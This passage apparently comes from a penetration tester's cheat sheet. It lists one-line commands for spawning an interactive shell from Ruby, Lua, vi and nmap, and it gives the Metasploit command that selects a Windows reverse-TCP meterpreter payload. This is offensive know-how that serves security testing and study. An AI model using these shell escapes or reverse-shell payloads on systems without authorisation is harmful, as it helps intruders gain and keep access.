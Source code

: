 {% highlight ruby %}
exec "/bin/sh"
{% endhighlight %}

#### Spawn Lua TTY Shell

{% highlight lua %}
os.execute('/bin/sh')
{% endhighlight %}

#### Spawn TTY Shell from Vi

Run shell commands from vi:

{% highlight bash %}
:!bash
{% endhighlight %}

#### Spawn TTY Shell NMAP

{% highlight bash %}
!sh
{% endhighlight %}


## Metasploit

Some basic Metasploit stuff, that I have found handy for reference.

### Meterpreter Payloads

#### Windows reverse meterpreter payload

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>set payload windows/meterpreter/reverse_tcp</code></p>
      </td>
      <td>
            <p>Windows reverse tcp payload</p>
      </td>
    </tr>

  </tbody>
</table>
</div>
